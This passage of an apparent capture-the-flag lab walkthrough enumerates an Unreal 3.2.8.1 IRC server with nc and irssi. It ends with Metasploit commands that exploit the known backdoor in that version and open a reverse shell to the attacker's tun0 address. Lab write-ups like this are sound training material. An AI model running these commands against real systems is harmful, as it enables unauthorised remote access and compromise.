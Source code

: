 Looks like there are two ports operating IRC. We also get the domain name, let’s add that to our /etc/hosts.

Now let’s attempt to interact with the service:

```bash
nc 10.10.10.117 8067    
    
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead

```

Let’s try using irssi to interact with irc:

```bash
irssi

#in the software
/connect irked.htb 8067

20:12 -!- Irssi: Connecting to irked.htb [10.10.10.117] port 8067
20:12 Waiting for CAP LS response...
20:12 -!- Irssi: Connection to irked.htb established
20:12 !irked.htb *** Looking up your hostname...
20:13 !irked.htb *** Couldn't resolve your hostname; using your IP address instead
20:13 -!- Welcome to the ROXnet IRC Network kali!kali@10.10.16.7
20:13 -!- Your host is irked.htb, running version Unreal3.2.8.1
20:13 -!- This server was created Mon May 14 2018 at 13:12:50 EDT
20:13 -!- irked.htb Unreal3.2.8.1 iowghraAsORTVSxNCWqBzvdHtGp lvhopsmntikrRcaqOALQbSeIKVfMCuzNTGj
20:13 -!- UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 
          MAXTARGETS=20 are supported by this server
20:13 -!- WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=ROXnet 
          CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ are supported by this server
20:13 -!- EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP are supported by this server
20:13 -!- There are 1 users and 0 invisible on 1 servers
20:13 -!- 1 unknown connection(s)
20:13 -!- I have 1 clients and 0 servers
20:13 -!- Current Local Users: 1  Max: 1
20:13 -!- Current Global Users: 1  Max: 1
20:13 -!- MOTD File is missing
20:13 -!- Mode change [+iwx] for user kali
20:13 -!- You may not reregister

```

Let’s search up exploits associated with this version: Unreal3.2.8.1. We find this: https://www.exploit-db.com/exploits/16922

The exploit take advantage of the backdoor in this version of Unreal.

```bash
msfconsole 
search unreal
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS irked.htb
set RPORT 8067
show payloads
set payload payload/cmd/unix/reverse
set LHOST tun0
run
```
